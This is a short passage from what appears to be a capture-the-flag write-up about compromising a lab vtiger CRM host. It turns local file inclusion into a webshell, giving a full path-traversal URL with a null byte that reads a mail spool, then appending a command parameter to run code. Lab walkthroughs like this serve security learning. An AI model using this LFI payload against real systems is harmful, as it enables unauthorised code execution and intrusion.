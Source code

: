      -> QUIT                                                     
    <-  221 2.0.0 Bye
    === Connection closed with remote host.



### Webshell

Now I can read that file with the LFI at:



    view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action



I'll add `&cmd=id` to get execution:

![](/img/image-20210218154253978.png)

I can turn that into a shell, and privesc just like in method one.






